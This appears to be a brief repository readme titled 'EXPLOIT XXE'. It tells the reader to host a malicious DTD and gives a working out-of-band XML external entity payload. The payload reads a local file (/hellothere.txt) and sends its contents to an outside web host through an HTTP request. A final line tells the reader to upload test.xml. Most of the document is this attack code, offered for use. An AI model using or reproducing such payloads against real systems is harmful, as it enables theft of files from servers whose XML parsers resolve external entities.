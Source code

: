 # EXPLOIT XXE
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

```
<!ENTITY % file SYSTEM "file:///hellothere.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Upload file test.xml to see how it goes.
